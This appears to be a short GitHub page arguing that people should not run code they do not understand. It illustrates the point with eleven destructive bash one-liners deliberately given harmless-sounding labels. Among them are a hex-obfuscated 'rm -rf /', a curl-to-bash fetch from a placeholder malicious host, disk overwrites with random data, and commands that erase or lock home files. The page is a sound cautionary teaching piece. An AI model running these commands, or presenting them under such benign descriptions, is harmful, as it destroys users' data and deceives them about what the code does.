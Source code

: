 # My one page argument for learning to code

## **_NEVER_** run code you don't understand

I often hear that people call themselves 'Copy and paste' coders.  And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things.  A better method is to find code, see what is done and recreate, and at a bare minimal, copy it, know ingexactly what it does.\
My small example of code that can have unintended results

> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands

A. Greatly simplies document syntax: 

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space:

``` bash
du ~/ | grep -o '/.*' | xargs rm -r --
```

C. Relinks your files to improve efficentcy:

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage:

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space:

``` bash
sudo command $(echo 726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know:

``` bash
bash -c "$(curl http://maliciouscode.com/rm) &"
```

G. Frees up uneccesary space:

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space:

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes:

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your file:

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \; 
```

K. Keep logs of files in the home folder utilising your current files:

```bash
find ~/-type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
